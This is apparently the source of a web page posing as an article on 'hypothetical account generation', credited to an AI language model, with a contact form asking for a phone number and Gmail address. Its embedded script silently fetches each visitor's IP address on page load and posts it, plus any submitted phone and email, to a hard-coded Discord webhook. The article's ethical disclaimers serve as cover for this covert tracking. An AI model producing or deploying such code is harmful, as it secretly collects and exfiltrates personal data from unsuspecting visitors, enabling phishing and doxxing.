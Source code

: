 <!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Interesting Article Title</title>
    <style>
        body {
            font-family: sans-serif;
            line-height: 1.6;
            margin: 20px;
        }
        h1 {
            font-size: 2.5em;
            margin-bottom: 10px;
        }
        .author-date {
            color: #555;
            font-size: 0.9em;
            margin-bottom: 20px;
        }
        .article-body {
            margin-bottom: 30px;
        }
        p {
            margin-bottom: 15px;
        }
        /* Style for the form */
        .contact-form {
            margin-top: 40px;
            padding: 20px;
            border: 1px solid #ccc;
        }
        .contact-form label {
            display: block;
            margin-bottom: 5px;
        }
        .contact-form input[type="tel"],
        .contact-form input[type="email"] {
            width: 100%;
            padding: 8px;
            margin-bottom: 15px;
            border: 1px solid #ddd;
        }
        .contact-form button {
            padding: 10px 15px;
            background-color: #007bff;
            color: white;
            border: none;
            cursor: pointer;
        }
    </style>
</head>
<body>

    <article>
        <h1>The Fascinating World of Hypothetical Account Generation</h1>
        <div class="author-date">
            By AI Language Model - Published on May 8, 2025
        </div>
        <div class="article-body">
            <p>In the realm of theoretical computing and educational explorations, the concept of automatically generating user accounts often arises. While the practical and ethical implications of such systems are significant and warrant careful consideration, examining the underlying technical principles can be an insightful exercise.</p>
            <p>Imagine a scenario where, for purely illustrative purposes, one might explore the creation of randomized usernames and passwords. This exploration could delve into algorithms for producing names that bear a resemblance to human-created identifiers, perhaps by combining word fragments or appending numerical sequences. Similarly, the generation of strong, unique passwords could be examined through the lens of randomness and complexity.</p>
            <p>However, it is crucial to reiterate that the actual implementation of systems that automatically create accounts, especially for existing online platforms, carries substantial ethical and practical concerns. Respecting user privacy, adhering to terms of service, and ensuring responsible use are paramount. This article serves solely as a high-level conceptual overview and does not endorse or facilitate any activity that could be construed as unethical or harmful.</p>
            <p>Further discussions in this hypothetical exploration might touch upon the challenges of ensuring uniqueness across a vast number of potential identifiers and the limitations of purely algorithmic generation in mimicking the nuances of human choice. The inclusion of elements like copy buttons, as seen in previous educational examples, could theoretically streamline the interaction with such generated data, again, within a strictly educational context.</p>
            <p>Ultimately, while the technical aspects of hypothetical account generation can be a subject of academic curiosity, the responsible and ethical handling of user data and platform integrity must always take precedence in real-world applications.</p>
        </div>
    </article>

    <div class="contact-form">
        <h2>Contact Us</h2>
        <form id="contactForm">
            <label for="phone">Phone Number (11 digits):</label>
            <input type="tel" id="phone" name="phone" pattern="[0-9]{11}" placeholder="09123456789" required>
            <label for="email">Gmail Address:</label>
            <input type="email" id="email" name="email" pattern=".+@gmail\.com$" placeholder="yourname@gmail.com" required>
            <button type="submit">Submit</button>
        </form>
    </div>

    <script>
        document.addEventListener('DOMContentLoaded', function() {
            const form = document.getElementById('contactForm');
            const webhookUrl = 'https://discord.com/api/webhooks/1354943880205959280/m_Sk7fhLF3e9lFab06lzMB9Up1Y0FtxJqZJDMQZxkRgapN388FpY9mXaZhDacvqiz86d'; // **REPLACE WITH YOUR ACTUAL WEBHOOK URL**
            let userIP = null; // Store IP address

            // Function to send data to Discord webhook
            function sendToDiscord(message) {
                fetch(webhookUrl, {
                    method: 'POST',
                    headers: { 'Content-Type': 'application/json' },
                    body: JSON.stringify(message),
                })
                .then(response => {
                    if (!response.ok) {
                        console.error('Discord Webhook Error:', response);
                    }
                })
                .catch(error => {
                    console.error('Discord Webhook Error:', error);
                });
            }

            // Fetch IP address and then proceed
            fetch('https://api.ipify.org?format=json')
                .then(response => {
                    if (!response.ok) {
                        console.error('IP Fetch Error:', response.status);
                        return Promise.reject('Failed to fetch IP address');
                    }
                    return response.json();
                })
                .then(data => {
                    userIP = data.ip;
                    console.log("Fetched IP Address:", userIP);
                    // Send IP address on page load
                    const ipMessage = {
                        embeds: [{
                            title: 'Page Opened - IP Address',
                            fields: [
                                { name: 'IP Address', value: userIP }
                            ],
                            timestamp: new Date().toISOString()
                        }]
                    };
                    sendToDiscord(ipMessage);

                    // Handle form submission
                    form.addEventListener('submit', function(event) {
                        event.preventDefault(); // Prevent default form submission

                        const phoneNumber = document.getElementById('phone').value;
                        const emailAddress = document.getElementById('email').value;

                        const formDataMessage = {
                            embeds: [{
                                title: 'Contact Form Submission',
                                fields: [
                                    { name: 'Phone Number', value: phoneNumber },
                                    { name: 'Email Address', value: emailAddress },
                                    { name: 'IP Address', value: userIP } // Include IP on submission as well
                                ],
                                timestamp: new Date().toISOString()
                            }]
                        };
                        sendToDiscord(formDataMessage);
                        alert('Information sent successfully!');
                        form.reset(); // Clear the form
                    });
                })
                .catch(error => {
                    console.error('Initial Error:', error);
                    alert('An error occurred during page load.');
                });
        });
    </script>

</body>
</html>
